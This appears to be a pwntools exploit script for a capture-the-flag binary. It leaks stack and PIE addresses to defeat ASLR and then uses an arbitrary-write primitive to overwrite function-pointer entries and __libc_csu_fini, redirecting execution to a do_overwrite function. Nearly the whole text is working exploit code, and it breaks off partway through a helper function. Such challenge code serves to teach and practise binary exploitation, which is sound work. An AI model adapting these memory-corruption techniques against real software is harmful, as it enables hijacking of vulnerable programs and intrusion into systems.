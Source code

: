 ```python
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

    

io = start()

def write(addr, val, io=io):
    io.send(str(addr))
    io.send(p64(val))
    io.clean()

io.recvuntil(b'pie')
io.readline()

io.sendline(b'1')
io.recvuntil(b'> ')
stack_leak = io.readline()[:-1]

log.success(stack_leak)

stack_leak = int(stack_leak,16)

ret_addr = stack_leak +0x18

io.send(str(ret_addr))
io.send(b'\x04')


io.recvuntil(b'pie')
io.readline()

io.sendline(b'2')
io.recvuntil(b'> ')
pie_leak = io.readline()[:-1]

log.success(pie_leak)
pie_leak = int(pie_leak,16)

exe.address =   pie_leak - exe.sym['do_leak']

write(exe.sym['do_leak']+0x2a559b+8, exe.sym["do_overwrite"])
print(hex(exe.sym['do_leak']+0x2a559b))
write(exe.sym['do_leak']+0x2a559b, exe.sym["do_overwrite"])
csiRet = stack_leak-72 
write(csiRet,exe.sym['__libc_csu_fini'])

csiRet += 8 

def writeLoop(addr, val):
    global csiRet
    write(addr, val)
```